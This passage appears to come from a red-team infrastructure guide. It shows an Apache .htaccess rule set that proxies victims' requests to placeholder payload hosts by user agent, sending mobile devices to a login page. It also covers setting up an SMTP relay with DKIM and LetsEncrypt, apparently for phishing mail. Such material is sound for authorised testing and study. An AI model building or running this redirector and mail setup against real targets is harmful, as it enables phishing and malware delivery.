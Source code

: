 Payload redirector server is built on apache2 `mod_rewrite` and `proxy` modules. `Mod_rewrite` module allows us to write fine-grained URL rewriting rules and proxy victim's HTTP requests to appropriate payloads as the operator deems appropriate.

#### .htaccess

Below is an .htaccess file that instructs apache, or to be precise `mod_rewrite` module, on when, where and how (i.e proxy or redirect) to rewrite incoming HTTP requests:

{% code title=".htaccess" %}
```typescript
RewriteEngine On
RewriteCond %{HTTP_USER_AGENT} "android|blackberry|googlebot-mobile|iemobile|ipad|iphone|ipod|opera mobile|palmos|webos" [NC]
RewriteRule ^.*$ http://payloadURLForMobiles/login [P]
RewriteRule ^.*$ http://payloadURLForOtherClients/%{REQUEST_URI} [P]
```
{% endcode %}

Breakdown of the file:

* Line 2 essentially says: hey, apache, if you see an incoming http request with a user agent that contains any of the words "android, blackberry, ..." etc, move to line 3
* Line 3 instructs apache to proxy (\[P]**)** the http request to `http://payloadURLForMobiles/login`. If condition in line 2 fails, move to line 4
* If condition in line 2 fails, the http request gets proxied to `http://payloadURLForOtherClients/%{REQUEST_URI}` where `REQUEST_URI` is the part of the http request that was appended after the domain name - i.e someDomain.com/?thisIsTheRequestUri=true

Below screenshot should illustrate the above concept:

1. green highlight - we used curl (and its default UA), which according to the .htaccess file, should have redirected us to `payloadURLForOtherClients` -  which we see it attempted to, but of course failed since it's a test and a non-resolvable host is specified
2. pink - we curl'ed the payload redirector again, but this time with a forged UA, masquerading the http request as if it was coming from an iphone - we can see that apache correctly attempted to proxy the request through to the `payloadURLForMobiles` host:

![](<../../.gitbook/assets/Screenshot from 2019-01-28 21-34-44.png>)

### Outputs

`Outputs.tf` contains key server DNS names and their IP addresses for operator's reference:

![](<../../.gitbook/assets/Screenshot from 2019-01-28 21-50-22.png>)

Also, note the last highlighted bit - an instruction for an operator to execute a `./finalize.sh` command from the working directory. It will install `LetsEncrypt` certificates on the smtp relay server and also print out the DKIM DNS TXT record that needs to be added to the DigitalOcean's DNS records for the smtp relay domain:

![](<../../.gitbook/assets/Screenshot from 2019-01-28 21-49-44.png>)

The DNS record `mail._domainkey` placeholder with a dummy value "I am DKIM, but change with the DKIM from finalize.sh" is created (`dns.tr` file) for ones convenience - that value needs to be replaced with the above highlighted DKIM value provided by the finalize.sh script.&#x20;

